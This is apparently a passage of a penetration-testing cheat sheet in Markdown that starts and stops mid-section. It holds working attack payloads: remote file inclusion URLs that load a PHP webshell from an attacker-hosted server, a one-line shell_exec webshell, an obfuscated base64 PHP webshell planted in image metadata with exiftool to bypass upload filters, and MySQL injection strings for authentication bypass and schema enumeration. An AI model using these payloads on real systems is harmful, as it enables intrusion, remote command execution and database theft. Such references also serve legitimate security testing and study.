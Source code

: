 python -m http.server 80
```
```
http://site.com/menu.php?file=http://<IP>/evil.php%00.png
```

### RFI to Webshell with txt
```
echo '<?php echo shell_exec($_GET["cmd"]); ?>' > evil.txt
python -m http.server 80
```
```
http://site.com/menu.php?file=http://<IP>/evil.txt&cmd=ipconfig
```
	
## Path Normalization
https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf

## Unrestricted File Upload Bypass
### Extension Bypass via metadata  
1.  
```
mv ok.jpeg ok.jpg.php
exiftool -Comment="<?php $b0=$_GET[base64_decode('b2s=')];if(isset($b0)){echo base64_decode('PHByZT4=').shell_exec($b0).base64_decode('PC9wcmU+');}die();?>" ok.jpg.php
```
2.  
https://site.com/upload/ok.jpg.php?ok=whoami

## SQL Injection (SQLI)
### SQL Injection - MySQL/MariaDB
-> Bypass Authentication  
```
' or 1=1 -- -
admin' -- -
' or 1=1 order by 2 -- -
' or 1=1 order by 1 desc -- - 
' or 1=1 limit 1,1 -- -
```
-> get number columns
```
-1 order by 3;#
```
	
-> get version
```
-1 union select 1,2,version();#
```
	
-> get database name
```
-1 union select 1,2,database();#
```
	
-> get table name
```
-1 union select 1,2, group_concat(table_name) from information_schema.tables where table_schema="<database_name>";#
```
	
-> get column name
``` 
-1 union select 1,2, group_concat(column_name) from information_schema.columns where table_schema="<database_name>" and table_name="<table_name>";#
```
	
-> dump
```